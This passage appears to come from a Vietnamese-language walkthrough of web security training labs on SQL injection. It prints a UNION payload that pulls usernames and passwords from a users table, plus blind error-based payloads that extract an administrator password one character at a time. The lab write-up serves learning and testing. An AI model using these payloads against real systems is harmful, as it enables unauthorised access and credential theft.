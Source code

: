  ![alt text](image-47.png)
' UNION SELECT  USERNAME_EPNJKE, PASSWORD_JITDIE FROM USERS_WIEJND—
 ![alt text](image-48.png)
### Lab: Blind SQL injection with conditional errors
Nhiệm vụ bài lab: Sử dụng lỗ hổng SQL Injection mù để khai thác dựa vào SQL errors. Cần lấy được thông tin bảng users với cột username và password
Mấu chốt bài lab: Câu query không trả về hoặc không tác động nhiều đến response, do đó, cần khai thác khi SQL error diễn ra. Để thử, chúng ta thử với 2 input như sau:
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
Nếu điều kiện trong when đúng thì SQL error sẽ hiện ra. Vậy payload ở đây sẽ là:
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
